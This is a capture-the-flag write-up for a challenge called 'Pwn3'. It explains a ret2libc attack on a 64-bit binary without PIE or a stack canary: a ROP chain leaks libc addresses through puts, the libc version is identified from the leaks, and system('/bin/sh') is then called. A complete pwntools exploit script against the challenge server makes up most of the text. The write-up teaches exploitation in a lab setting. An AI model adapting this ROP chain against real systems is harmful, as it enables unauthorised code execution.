






## Pwn3

Start by running checksec on the binary.



We have a 64 bit binary.  PIE is not enable and we don't have a stack canary.  View the decompilation in ghidra.



A pretty simple stack buffer overflow.  However this time we don't have any way to execute a shell within the binary.  We will need to utilize libc.

The first step is figuring out where libc is in memory.  We can leak the address by calling puts on the GOT entry.  Start by finding a "pop rdi" gadget.



0x401232 is what we need.  The buffer overflow will look something like this.

```python
payload = b""
payload += b"A" * 0x28
payload += p64(0x401232)  # pop rdi; ret;
payload += p64(binary.got['puts'])
payload += p64(binary.plt['puts'])
payload += p64(binary.symbols['main'])
```

This ROP chain will let us call puts on the GOT entry of puts.  Calling main address again will let us trigger our exploit multiple times.

Now we need to find out what libc version we are working with.  To do this we will print out multiple memory addresses of libc functions and use https://libc.rip to figure out the version.

```python
p.readuntil("Would you like a flag?\n")

payload = b""
payload += b"A" * 0x28

payload += p64(rdi_gadget)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)

puts_addr = p.readuntil("Would you like a flag?\n")
puts_addr = puts_addr.split(b"\n")[1]
puts_addr = u64(puts_addr + b"\x00" * (8 - len(puts_addr)) )
print(f"puts address: {hex(puts_addr)}")

payload = b""
payload += b"A" * 0x28

payload += p64(rdi_gadget)
payload += p64(fgets_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)

fgets_addr = p.readuntil("Would you like a flag?\n")
fgets_addr = fgets_addr.split(b"\n")[1]
fgets_addr = u64(fgets_addr + b"\x00" * (8 - len(fgets_addr)) )
print(f"fgets address: {hex(fgets_addr)}")

payload = b""
payload += b"A" * 0x28

payload += p64(rdi_gadget)
payload += p64(setvbuf_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)

setvbuf_addr = p.readuntil("Would you like a flag?\n")
setvbuf_addr = setvbuf_addr.split(b"\n")[1]
setvbuf_addr = u64(setvbuf_addr + b"\x00" * (8 - len(setvbuf_addr)) )
print(f"setvbuf address: {hex(setvbuf_addr)}")
```



We had an issue getting the address for fgets but we should have enough.



We have 4 results.  After some guessing and checking I figured out they were using libc6_2.35-0ubuntu3_amd64.  We can download it and use it in our pwn script.

Now we need a buffer overflow that will execute a shell.  I decided to call system on the "/bin/sh" string in the libc rodata section.  I also needed one more ret gadget to make sure the stack is 16 byte aligned before calling system.  With that we should have everything we need to finish our exploit.

#### exploit.py
```python
from pwn import *

binary = context.binary = ELF("./pwn3")
libc = ELF("./libc6_2.35-0ubuntu3_amd64.so")

# puts GOT = 0x404018
puts_got = binary.got['puts']
# fgets GOT = 0x404020
fgets_got = binary.got['fgets']
# setvbuf GOT = 0x404028
setvbuf_got = binary.got['setvbuf']
# puts PLT = 0x401060
puts_plt = binary.plt['puts']
# puts in libc = 0x184ed0
puts_libc = libc.symbols['puts']
# main address = 0x4011db
main_addr  = binary.symbols['main']
# system address = 0x54ae0
system_off = libc.symbols['system']
# "/bin/sh" address = 0x1d8698
binsh_off  = 0x1d8698

rdi_gadget = 0x401232
ret_gadget = 0x401233

if args.REMOTE:
    p = remote('challs.n00bzunit3d.xyz', 42450)
elif args.GDB:
    p = gdb.debug(binary.path, env={"LD_PRELOAD":libc.path})
else:
    p = process(binary.path, env={"LD_PRELOAD":libc.path})

p.readuntil("Would you like a flag?\n")

payload = b""
payload += b"A" * 0x28

payload += p64(rdi_gadget)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)

puts_addr = p.readuntil("Would you like a flag?\n")
puts_addr = puts_addr.split(b"\n")[1]
puts_addr = u64(puts_addr + b"\x00" * (8 - len(puts_addr)) )
print(f"puts address: {hex(puts_addr)}")

payload = b""
payload += b"A" * 0x28

payload += p64(rdi_gadget)
payload += p64(fgets_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)

fgets_addr = p.readuntil("Would you like a flag?\n")
fgets_addr = fgets_addr.split(b"\n")[1]
fgets_addr = u64(fgets_addr + b"\x00" * (8 - len(fgets_addr)) )
print(f"fgets address: {hex(fgets_addr)}")

payload = b""
payload += b"A" * 0x28

payload += p64(rdi_gadget)
payload += p64(setvbuf_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)

setvbuf_addr = p.readuntil("Would you like a flag?\n")
setvbuf_addr = setvbuf_addr.split(b"\n")[1]
setvbuf_addr = u64(setvbuf_addr + b"\x00" * (8 - len(setvbuf_addr)) )
print(f"setvbuf address: {hex(setvbuf_addr)}")

libc_base = puts_addr - puts_libc
system_addr   = libc_base + system_off
binsh_addr    = libc_base + binsh_off

payload = b""
payload += b"A" * 0x28
payload += p64(rdi_gadget)
payload += p64(binsh_addr)
payload += p64(ret_gadget)
payload += p64(system_addr)

p.sendline(payload)

p.interactive()
```



Success!